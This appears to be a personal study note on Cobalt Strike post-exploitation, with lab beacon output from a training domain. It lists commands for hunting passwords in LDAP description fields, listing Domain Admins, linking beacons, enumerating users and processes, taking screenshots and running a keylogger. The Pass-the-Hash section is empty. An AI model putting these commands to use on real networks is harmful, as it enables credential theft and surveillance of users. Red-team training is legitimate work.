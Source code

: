 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  



### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`




### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server.


Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`



### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```


### Pass the Hash
Pass the Hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password, rather than the plaintext.

```


```


### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```






___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
